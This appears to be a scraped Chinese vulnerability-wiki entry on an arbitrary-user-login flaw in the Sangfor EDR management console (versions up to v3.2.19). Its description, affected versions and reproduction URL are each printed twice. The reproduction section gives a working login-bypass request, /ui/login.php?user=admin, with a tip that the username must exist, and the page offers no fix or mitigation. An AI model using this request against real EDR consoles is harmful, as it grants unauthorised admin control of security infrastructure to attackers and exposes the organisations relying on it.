


深信服 EDR 后台任意用户登陆漏洞¶
漏洞描述¶
深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，登录任意用户
漏洞影响¶
EDR <= v3.2.19
漏洞复现¶
https://xxx.xxx.xxx.xxx/ui/login.php?user=admin
注意最后的admin需要为存在的用户名

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，登录任意用户
EDR <= v3.2.19
https://xxx.xxx.xxx.xxx/ui/login.php?user=admin
注意最后的admin需要为存在的用户名
